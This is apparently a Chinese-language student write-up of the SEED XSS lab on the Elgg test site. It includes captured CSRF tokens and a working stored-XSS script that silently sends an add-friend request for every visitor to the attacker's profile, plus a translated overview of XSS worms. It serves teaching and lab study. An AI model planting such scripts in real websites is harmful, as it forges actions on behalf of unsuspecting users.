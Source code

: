 [toc]

## 前言

**我在web这块，八窍已通七窍。**时间不是特别紧，我花了八天左右，去刷了一份JavaScript的视频才回头接着看这一章的内容。但web这里还有很多不知道，故不进行介绍。

XSS的内容见：[前端安全系列（一）：如何防止XSS攻击？](https://juejin.im/post/5bad9140e51d450e935c6d64)

我刷的JS视频：[JavaScript从入门到精通 -- Blue石川老师](https://www.bilibili.com/video/BV1LW411Q7qV)

刷视频过程中的代码/文档：[JavaScript -- github](https://github.com/da1234cao/programming-language-entry-record/tree/master/JavaScript)

该实验的代码文档源见：[代码文档仓库](https://github.com/da1234cao/computer_security)

<br>

## seed 实验

进行分析。

```js
使用alice账号，添加samy为好友，HTTP Header如下所示
Request URL:http://www.xsslabelgg.com/action/friends/add?friend=47
            &__elgg_ts=1594634598
            &__elgg_token=i_ODReeUsehhSb1JkBlUOQ
            &__elgg_ts=1594634598
            &__elgg_token=i_ODReeUsehhSb1JkBlUOQ
Host:www.xsslabelgg.com


查看该页面的html源码，找到嵌入在页面中的：elgg.security.token.__elgg_ts 和 elgg.security.token.__elgg_token
var elgg = 
{
    "config":{"lastcache":1549469404,"viewtype":"default","simplecache_enabled":1},
    "security":{"token":{"__elgg_ts":1594634598,"__elgg_token":"i_ODReeUsehhSb1JkBlUOQ"}},
    "session":{"user":{"guid":44,"type":"user","subtype":"","owner_guid":44,
               "container_guid":0,"site_guid":1,"time_created":"2017-07-26T20:29:47+00:00",
               "time_updated":"2017-07-26T20:29:48+00:00",
               "url":"http:\/\/www.xsslabelgg.com\/profile\/alice",
               "name":"Alice","username":"alice","language":"en","admin":false},
               "token":"VNxZb5d0hPy3F8atWS4KPJ"},
    "_data":{},
    "page_owner":{"guid":47,"type":"user","subtype":"","owner_guid":47,"container_guid":0,
                  "site_guid":1,"time_created":"2017-07-26T20:30:59+00:00",
                  "time_updated":"2020-07-13T09:39:32+00:00",
                  "url":"http:\/\/www.xsslabelgg.com\/profile\/samy",
                  "name":"Samy","username":"samy","language":"en"}
};


<a href="http://www.xsslabelgg.com/action/friends/add?friend=47&amp;
    __elgg_ts=1594691548&amp;__elgg_token=HcunH-Lm_a09OwBPn6rakA" 
    class="elgg-button elgg-button-action">Add friend</a>

function() {
  var $menu = $(this).closest('.elgg-menu');

  // Be optimistic about success
  elgg.ui.toggleMenuItems($menu, menuItemNameB, menuItemNameA);

  // Send the ajax request
  elgg.action($(this).attr('href'), {
    success: function(json) {
      if (json.system_messages.error.length) {
        // Something went wrong, so undo the optimistic changes
        elgg.ui.toggleMenuItems($menu, menuItemNameA, menuItemNameB);
      }
    },
    error: function() {
      // Something went wrong, so undo the optimistic changes
      elgg.ui.toggleMenuItems($menu, menuItemNameA, menuItemNameB);
    }
  });

  // Don't want to actually click the link
  return false;
}
```



执行XSS攻击。

```html
<!-- 嵌入js代码，在受害者不知情的情况下，添加朋友
分析过程见analysis.txt -->

<span>when you see my profile,you have been attacked by XSS. </span>

<script type="text/javascript">
window.onload = function(){
    // 提取参数 -- 参数在后面，所以用window.onload
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;

    // alert('ts='+ts);
    // alert('token='+token);

    // 构造url
    var sendUrl = "http://www.xsslabelgg.com/action/friends/add?friend=47" + ts + token;

    // 创建和发送Ajax请求
    var Ajax = new XMLHttpRequest();
    Ajax.open('GET',sendUrl,true);
    // Ajax.setRequestHeader("Host","www.xsslabelgg.com");

    Ajax.send();

    // 接受返回
    // Ajax.onreadystatechange = function(){ // 状态发生变化时，函数被回调
    //     if(Ajax.readyState == 4){ // 成功完成
    //         // 判断响应结果
    //         if(Ajax.status == 200){
    //             // alert('success');
    //             alert(Ajax.responseText);
    //         }else{
    //             alert('failure');
    //         }
    //     }
    // }
}


</script>
```

结果：通过嵌入的JS代码，在受害者不知情的情况下，添加好友。

![image-20200714182647730](XSS_Attack.assets/image-20200714182647730.png)

<br>

## 总结翻译

ROC + google翻译

![image-20200714180620582](XSS_Attack.assets/image-20200714180620582.png)
许多网络应用程序（例如社交网络）允许用户共享信息。因此，来自一个用户的数据可能会被其他用户查看。如果共享的只是数据，则没有风险很大；但是，**恶意用户可能会将JavaScript代码隐藏在其数据中**；**如果是网路应用程序不会过滤掉代码，代码可能会到达其他用户的浏览器并被执行。这是称为跨站脚本（XSS）**，这是一种特殊的代码注入攻击，它是针对Web应用程序的最常见攻击。 XSS的根本缺陷是JavaScript本质导致，代码可以与HTML数据混合。正如我们从其他攻击中学到的，作为缓冲区溢出，格式字符串和SQL注入攻击，可以**将数据与代码混合**
**非常危险**。如果Web应用程序无法将它们分开并过滤掉不受信任的代码，则它将最终可能会运行恶意代码。在XSS攻击中，一旦攻击者的代码进入受害者的浏览器，该代码便可以发送代表受害者向网络服务器伪造请求，例如删除受害者的朋友并更改受害者的个人资料。此外，恶意代码可以将自己的副本保存在受害者的帐户，感染了受害者的数据。当其他人查看受害者的受感染数据时，恶意代码可以进一步感染其他人，从本质上讲成为一种自我传播的蠕虫。为了克服XSS攻击，大多数应用程序使用过滤器从数据中删除JavaScript代码，由用户提供。编写这样的过滤器并不容易，因为有很多嵌入方法数据中的JavaScript代码。**最佳做法是使用经过广泛审查的过滤器，而不是通过个人的一些快速努力来创建一个。**

![image-20200715104554918](XSS_Attack.assets/image-20200715104554918.png)
